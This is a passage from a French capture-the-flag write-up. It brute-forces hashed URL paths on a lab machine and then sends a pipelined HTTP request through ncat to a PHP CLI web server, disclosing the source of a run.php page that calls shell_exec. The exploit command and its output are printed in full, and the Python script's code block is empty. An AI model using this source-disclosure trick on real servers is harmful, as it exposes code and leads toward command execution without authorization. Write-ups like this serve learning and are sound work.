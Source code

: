 ```python
```

La bonne blague (ou pas) c'est qu'il fallait rajouter un retour à la ligne aux mots avant de les hasher, ce qui n'était pas indiqué dans le message.

Je suppose que l'auteur du CTF a utilisé la commande `echo` sans l'option `-n` sans comprendre son erreur.

```console
$ python3 brute_path.py 
147 aview10 13fabf2bcd385cf87939748490f6a96955212567
133 aview17 d0fa319a11ef644862edf51b9177b9d62a1e6650
119 aview22 ece8236b92964611c75c759bb8c2297e3b962903
815 aview24 7f98ca7ba1484c66bf09627f931448053ae6b55a
119 aview26 fa05b73405e2996c69ad78ed1fa0f24b9da965ac
119 aview41 af92fb801e526655686899ae8341b9e7cfa21ea0
147 bview11 f871c18649e03d2e9cd7414b95cde578f23dba8d
119 bview77 0f3c6dc226621deac4d0a66e0f60785d923fc282
119 cview29 03388bdd6c0ba6a112b0f0d3aca2f3775be0a007
133 cview91 ef1cacc0f3b5aea1a0d56c5df4263580e7b23570
147 dview00 e57019d9886a12e8c27d9d3f4e46fac9603e8bc2
119 eview57 de5eb20114e281e2e514a64d98187d6f30c3c9b4
115 fview31 e7642454c8c6047fd883a859580a0723657fcf45
119 fview32 ad3029ea9d74ebcbde60ec9abaf95ac6eed95490
147 hview42 5a96f2b44b310535334d2b99258db5ea3eadd448
119 kview11 dd0cdfeb376f8e96d2325724eb000588c8cf70f5
147 lview01 d7297045329f04a3bb4b35e629407343868820d4
119 oview99 72fd79c962996b32fc4b0a2a0c5c1b6b1aa860d4
147 rview07 8eb11aa78f52090f8c32f81797e561d7fbd29fd7
119 sview29 f174b138d930be79ab383669319aecbdde70af6a
133 wview77 2cfc36dfe3e7f20faa2ad9bc2091c25387844adf
119 zview99 7c7b00a0a30137eaac46b32aaec2f9668d6a10d5
```

Une exploration manuelle de ces paths permet d'en trouver un avec un gros bouton pour l'exécution.

Je peux exploiter la faille du `phpcli` pour divulguer le code PHP :

```console
$ echo -e "GET /7f98ca7ba1484c66bf09627f931448053ae6b55a/run.php HTTP/1.1\r\nHost: pd.research\r\n\r\nGET /xyz.xyz HTTP/1.1\r\n\r\n" | ncat 192.168.56.193 8191 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Connected to 192.168.56.193:8191.
HTTP/1.1 200 OK
Host: pd.research
Connection: close
Content-Type: application/octet-stream
Content-Length: 153

<html>
<?php
$out = shell_exec('/usr/bin/python /home/max/aView.py');
echo $out;
?>

<br><br><br><br>
<img src="view11.gif" alt="almost there">

</html>
Ncat: 111 bytes sent, 271 bytes received in 0.09 seconds.
```
